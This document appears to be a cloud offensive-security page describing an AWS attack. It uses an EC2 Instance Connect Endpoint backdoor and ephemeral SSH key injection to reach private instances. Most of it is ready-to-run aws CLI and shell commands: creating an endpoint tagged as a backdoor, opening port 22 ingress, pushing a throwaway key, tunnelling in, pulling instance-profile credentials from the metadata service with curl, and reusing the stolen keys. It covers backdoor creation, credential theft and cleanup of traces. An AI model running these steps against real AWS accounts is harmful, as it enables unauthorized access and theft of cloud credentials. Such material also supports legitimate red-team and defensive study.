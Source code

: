 # AWS - EC2 Instance Connect Endpoint backdoor + ephemeral SSH key injection

Abuse EC2 Instance Connect Endpoint (EIC Endpoint) to gain inbound SSH access to private EC2 instances (no public IP/bastion) by:
- Creating an EIC Endpoint inside the target subnet
- Allowing inbound SSH on the target SG from the EIC Endpoint SG
- Injecting a short‑lived SSH public key (valid ~60 seconds) with `ec2-instance-connect:SendSSHPublicKey`
- Opening an EIC tunnel and pivoting to the instance to steal instance profile credentials from IMDS

Impact: stealthy remote access path into private EC2 instances that bypasses bastions and public IP restrictions. The attacker can assume the instance profile and operate in the account.

## Requirements
- Permissions to:
  - `ec2:CreateInstanceConnectEndpoint`, `ec2:Describe*`, `ec2:AuthorizeSecurityGroupIngress`
  - `ec2-instance-connect:SendSSHPublicKey`, `ec2-instance-connect:OpenTunnel`
- Target Linux instance with SSH server and EC2 Instance Connect enabled (Amazon Linux 2 or Ubuntu 20.04+). Default users: `ec2-user` (AL2) or `ubuntu` (Ubuntu).

## Variables
```bash
export REGION=us-east-1
export INSTANCE_ID=<i-xxxxxxxxxxxx>
export SUBNET_ID=<subnet-xxxxxxxx>
export VPC_ID=<vpc-xxxxxxxx>
export TARGET_SG_ID=<sg-of-target-instance>
export ENDPOINT_SG_ID=<sg-for-eic-endpoint>
# OS user for SSH (ec2-user for AL2, ubuntu for Ubuntu)
export OS_USER=ec2-user
```

## Create EIC Endpoint
```bash
aws ec2 create-instance-connect-endpoint \
  --subnet-id "$SUBNET_ID" \
  --security-group-ids "$ENDPOINT_SG_ID" \
  --tag-specifications 'ResourceType=instance-connect-endpoint,Tags=[{Key=Name,Value=Backdoor-EIC}]' \
  --region "$REGION" \
  --query 'InstanceConnectEndpoint.InstanceConnectEndpointId' --output text | tee EIC_ID

# Wait until ready
while true; do
  aws ec2 describe-instance-connect-endpoints \
    --instance-connect-endpoint-ids "$(cat EIC_ID)" --region "$REGION" \
    --query 'InstanceConnectEndpoints[0].State' --output text | tee EIC_STATE
  grep -q 'create-complete' EIC_STATE && break
  sleep 5
done
```

## Allow traffic from EIC Endpoint to target instance
```bash
aws ec2 authorize-security-group-ingress \
  --group-id "$TARGET_SG_ID" --protocol tcp --port 22 \
  --source-group "$ENDPOINT_SG_ID" --region "$REGION" || true
```

## Inject ephemeral SSH key and open tunnel
```bash
# Generate throwaway key
ssh-keygen -t ed25519 -f /tmp/eic -N ''

# Send short-lived SSH pubkey (valid ~60s)
aws ec2-instance-connect send-ssh-public-key \
  --instance-id "$INSTANCE_ID" \
  --instance-os-user "$OS_USER" \
  --ssh-public-key file:///tmp/eic.pub \
  --region "$REGION"

# Open a local tunnel to instance:22 via the EIC Endpoint
aws ec2-instance-connect open-tunnel \
  --instance-id "$INSTANCE_ID" \
  --instance-connect-endpoint-id "$(cat EIC_ID)" \
  --local-port 2222 --remote-port 22 --region "$REGION" &
TUN_PID=$!; sleep 2

# SSH via the tunnel (within the 60s window)
ssh -i /tmp/eic -p 2222 "$OS_USER"@127.0.0.1 -o StrictHostKeyChecking=no
```

## Post-exploitation proof (steal instance profile credentials)
```bash
# From the shell inside the instance
curl -s http://169.254.169.254/latest/meta-data/iam/security-credentials/ | tee ROLE
curl -s http://169.254.169.254/latest/meta-data/iam/security-credentials/$(cat ROLE)
```

Example output (truncated):
```json
{
  "Code": "Success",
  "AccessKeyId": "ASIA...",
  "SecretAccessKey": "w0G...",
  "Token": "IQoJ...",
  "Expiration": "2025-10-08T04:09:52Z"
}
```

Use the stolen creds locally to verify identity:
```bash
export AWS_ACCESS_KEY_ID=<AccessKeyId>
export AWS_SECRET_ACCESS_KEY=<SecretAccessKey>
export AWS_SESSION_TOKEN=<Token>
aws sts get-caller-identity --region "$REGION"
# => arn:aws:sts::<ACCOUNT_ID>:assumed-role/<InstanceRoleName>/<InstanceId>
```

## Cleanup
```bash
# Revoke SG ingress on the target
aws ec2 revoke-security-group-ingress \
  --group-id "$TARGET_SG_ID" --protocol tcp --port 22 \
  --source-group "$ENDPOINT_SG_ID" --region "$REGION" || true

# Delete EIC Endpoint
aws ec2 delete-instance-connect-endpoint \
  --instance-connect-endpoint-id "$(cat EIC_ID)" --region "$REGION"
```

> Notes
> - The injected SSH key is only valid for ~60 seconds; send the key right before opening the tunnel/SSH.
> - `OS_USER` must match the AMI (e.g., `ubuntu` for Ubuntu, `ec2-user` for Amazon Linux 2).
